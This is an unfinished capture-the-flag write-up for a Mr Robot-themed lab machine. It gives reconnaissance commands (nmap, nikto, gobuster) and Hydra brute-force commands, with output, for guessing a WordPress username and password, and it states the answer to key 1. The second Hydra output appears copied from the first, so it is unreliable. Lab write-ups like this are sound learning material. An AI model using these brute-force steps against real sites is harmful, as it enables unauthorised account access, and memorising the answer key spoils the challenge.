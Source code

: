 # Mr Robot CTF
Based on the Mr. Robot show, can you root this box?

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

```
ip = 10.10.235.120
```

## Nmap

```
nmap -sC -sV -oN initial.log 10.10.235.120
```

>22/tcp  closed ssh
>
>80/tcp  open   http     Apache httpd
>
>443/tcp open   ssl/http Apache httpd


## Task 1.

```
nikto -h http://10.10.235.120 | tee nikto.log
```

Using **gobuster** I'm going to scan `http://10.10.235.120 /` for hidden directories or files using a wordlist and checks specified file extensions like php or txt.

```
gobuster dir -u http://10.10.235.120 / -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,sh,cgi,html,css,js,py
```

Looking at `http://10.10.235.120/robots.txt` I find three strings:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

With the second one I download a file with a lot of strings accessing `http://10.10.235.120/fsocity.dic`. With the third one I obtain the first key accessing `http://10.10.235.120/key-1-of-3.txt`. After that with the iformation obtained I find a Wordpress login page. When I try to access with an user that doesnt exists I obtain: `ERROR: Invalid username.`. So, with Hydra I am going to try to obtain a valid username.

```
hydra -L fsocity.dict -p test 10.10.235.120 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-03 16:09:00
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.235.120:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.235.120   login: Elliot   password: test

```

```
hydra -l Elliot -P fsocity.dict 10.10.235.120 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered" -t 30

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-03 16:09:00
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.235.120:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.235.120   login: Elliot   password: test

```



### Questions

1. What is key 1?
    >073403c8a58a1f80d943455fb30724b9
2. What is key 2?

3. What is key 3?